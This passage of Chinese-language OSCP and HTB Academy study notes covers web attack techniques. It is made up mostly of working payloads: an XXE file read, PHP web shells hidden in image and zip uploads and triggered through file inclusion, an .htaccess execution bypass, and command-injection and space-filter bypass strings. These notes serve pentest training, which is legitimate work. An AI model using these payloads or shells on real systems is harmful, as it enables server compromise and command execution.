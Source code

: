 ```xml
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>
```
- base64 decode
``` bash
echo "PD9waHAKJHRh....................................2FkIjsKfQo=" | base64 -d
```
## 雜項技術
>OSCP 2023教學相關技術
- Malicious Image
```
echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```
```
/index.php?language=./profile_images/shell.gif&cmd=id
```
- Zip Upload
```
echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php
```
```
http://192.168.0.100/index.php?language=zip://./profile_images/shell.jpg%23shell.php&cmd=id
```
- 透過上傳.htaccess檔案來繞過，讓自訂的檔案可以執行
```
echo "AddType application/x-httpd-php .dork" > .htaccess
```
```
move shell.php shell.dork
```
# Command Injection
>[!warning ] 小節重點
>本章內容幾乎都來自HTB academy 
```bash
ping -c 1 127.0.0.1; whoami
```
## Inject Operator 
- AND Operator
```bash
ping -c 1 127.0.0.1 && whoami
```
- OR Operator
```bash
ping -c 1 127.0.0.1 || whoami
```
## 過濾機制辨識
> 透過交叉比對的方式，發現那些可以執行，一個一個搭配已知不會過濾的字串進行測試

- 過濾的要點
	- Space 
	- Character 
	- Command
## 空格過濾繞過
>如果過濾單純的space，那可以試試看這些指令
-  new-line character
```
ping 127.0.0.1%0a
```
- Spaces
```
ping 127.0.0.1%0a+
```